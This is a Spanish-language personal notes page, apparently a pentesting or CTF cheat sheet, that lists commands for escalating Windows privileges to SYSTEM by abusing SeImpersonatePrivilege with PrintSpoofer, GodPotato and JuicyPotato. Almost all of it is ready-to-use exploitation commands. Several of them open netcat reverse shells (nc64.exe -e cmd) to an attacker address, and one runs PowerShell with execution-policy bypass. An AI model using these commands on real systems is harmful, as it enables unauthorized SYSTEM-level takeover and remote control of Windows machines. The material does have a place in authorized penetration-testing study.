

repository: JAVIKRD/bitacora · page: herramientas/seimpersonate/index.html · generator: mkdocs

# SeImpersonatePrivilege — Escalada de Privilegios

Guía y comandos de explotación para el privilegio `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege` en sistemas Windows para elevar privilegios a **NT AUTHORITY\SYSTEM**.

---

## 1. PrintSpoofer
Ideal para **Windows 10**, **Windows Server 2016** y **Windows Server 2019**. Aprovecha el servicio *Print Spooler* mediante tuberías con nombre (Named Pipes).

- **Repositorio:** [artis3n/SeImpersonatePrivilege-PrintSpoofer](https://github.com/artis3n/SeImpersonatePrivilege-PrintSpoofer)

```cmd
:: Shell reversa con Netcat
.\PrintSpoofer64.exe -c "nc64.exe 10.10.14.X 5555 -e cmd"

:: Ejecutar consola CMD como SYSTEM
.\PrintSpoofer64.exe -c "cmd.exe"

:: Sesión interactiva en CMD
.\PrintSpoofer64.exe -i -c "cmd.exe"

:: Ejecutar PowerShell evadiendo directivas de ejecución
.\PrintSpoofer64.exe -c "powershell.exe -ep bypass"
```

---

## 2. GodPotato
Exploit universal y moderno basado en DCOM. Funciona prácticamente en **cualquier versión de Windows** (Windows Server 2012 hasta 2022 y Windows 10/11) con soporte para .NET 3.5 o superior.

- **Repositorio:** [BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato/releases)

```cmd
:: Shell reversa interactiva
.\GodPotato.exe -cmd "nc64.exe 10.10.14.X 5555 -e cmd"

:: Verificación rápida de usuario
.\GodPotato.exe -cmd "cmd.exe /c whoami"
```

---

## 3. JuicyPotato
Diseñado para versiones anteriores de Windows (**Windows 7, 8.1, Server 2008 R2 y Server 2012**). Requiere un CLSID válido para el sistema objetivo.

- **Repositorio:** [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases)

```cmd
:: Ejecución especificando puerto COM y ruta completa de netcat
.\JuicyPotato64.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c nc64.exe 10.10.14.X 5555 -e cmd" -t *

:: Versión de 32 bits
.\JuicyPotato.exe -l 1337 -p nc64.exe -a "10.10.14.X 5555 -e cmd" -t *
```

---
